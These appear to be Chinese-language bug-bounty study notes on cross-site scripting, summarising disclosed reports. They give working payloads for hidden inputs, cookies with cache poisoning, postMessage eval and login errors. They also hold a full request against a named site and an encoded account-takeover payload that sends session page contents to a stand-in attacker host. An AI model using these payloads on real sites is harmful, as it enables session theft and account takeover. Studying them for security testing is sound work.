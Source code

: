 # 1.隐藏输入中的xss（绕过输入转义）
参数，位于post请求中的listViewHeading=
有效负载：" accesskey=X onclick=alert()
![[Pasted image 20241014211401.png]]
" accesskey=X onclick=alert() xxx
![[Pasted image 20241014211445.png]]
success

# 2.个人主页的项目名称中可以插入xsspayload
```
post
name="><svg onload="prompt(/xss/);"><!--
```

# 3.二维码xss
二维码执行js

# 4.cookie里的xss
cookie: hav=xxx 反射到页面上
payload:cookie:  hav=xss"</sc"ript><sv"g/onloa"d=al"ert"(document.do"main)>
缓存投毒，http响应里的头Cache-Control和Expires表明可以缓存
还发现cookie明文存储在页面js的这个变量window.INITIAL_STATE.system.cookie
直接alert(window.INITIAL_STATE.system.cookie)
厂商通过去除hav反射在页面修复该问题
邦邦的https://hackerone.com/reports/1760213

```
GET /annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js?xxxd HTTP/2
Host: www.abritel.fr
Cookie: hav=xss"</sc"ript><sv"g/onloa"d=aler"t"(document.doma"in)>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.abritel.fr/signup?enable_registration=true&redirectTo=%2Fsearch%2Fkeywords%3Asoissons-france-%28xss%29%2FminNightlyPrice%2F0%3FpetIncluded%3Dfalse%26filterByTotalPrice%3Dtrue%26ssr%3Dtrue&referrer_page_location=serp
Upgrade-Insecure-Requests: 1
Te: trailers
```
.js触发缓存。?xxxd缓存破坏器

# 5.postmessage相关的xss
网页存在代码![[Pasted image 20241017232723.png|700]]
e.data有exec的话就用eval执行代码，这里检查origin，但是不严格
```
可以构造https://hq.upserve.com.mydomain.com/xss.html
页面里window.opener.postMessage({exec:'alert("xss")'},"https://inventory.upserve.com/login/);
向目标网站发送一个包含代码执行的消息
```
推荐插件:postmessage tracker
自动化工具：semgrep
或者自己在开发者工具搜
![[Pasted image 20241017233752.png]]

# 6.没有绕过csp的2000刀xss
https://hackerone.com/reports/1804177
这里hunter的提交最初被关闭为selfxss。但是通过与审核沟通，这是一个能攻击管理员的存储xss
在应用程序发现能够创建链接，并且被群组的人看到，于是
使用此`javascript://%0aalert(1)`作为链接创建Custom Link（存在xss的功能）
浏览器报错说csp阻止了，说明此处可能存在xss，于是报告漏洞

思考：学会和审核沟通

# 7.登陆错误的xss
正常情况target.com/login?error=xxx
攻击情况
```
target.com/login?error=<img src=1 onerror=alert()>
```

# 8.个人信息中心处xss
某个字段可以编辑进行存储xss
https://hackerone.com/reports/1921606

# 9.分析上下文构造payload的搜索xss
search?brook
![[Pasted image 20241020112514.png]]
payload：
```
"，inertnalSearchTerm:[7].map(alert),num0fSearchResultsReturned:"b
//输入时候要url编码符号，这里iner这个没有特殊含义
```
这里[].map()算是一个简单绕过思路吧
弹窗
![[Pasted image 20241020112736.png]]

# xss账户接管
这里无法通过cookie窃取会话，但是发现https://www.sidefx.com/account/sessions/页面包含会话信息
测试危害：向其他账号发送https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxx&quotonerror=&quotalert&#40&#39XSS&#39&#41&quot&gt，受害者打开后发现会弹窗

接管账户的有效负载：
```
https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxxx&quotonerror=&quotfetch&#40&#39https&#58&#47&#47www.sidefx.com/account/sessions&#39&#41.then&#40response=&gt&#123response.text&#40&#41.then&#40ddd=&gt&#123let&#32el=document.createElement&#40&#39img&#39&#41&#59el.src=&#39http&#58&#47&#47myfakesite.com?q=&#39&#43btoa&#40encodeURIComponent&#40ddd&#41&#41&#59document.body.appendChild&#40el&#41&#125&#41&#125&#41&quot&gt
```
实际上就是
![[Pasted image 20241020133317.png]]
将页面内容（含有session）发给攻击者hhh
由于网站存在论坛，可以在论坛发送payload进行危害发散

思考：账号接管怎么做，如何造成危害（这里通过论坛去扩散危害），cookie被限制时候找找页面有没有存在会话信息的地方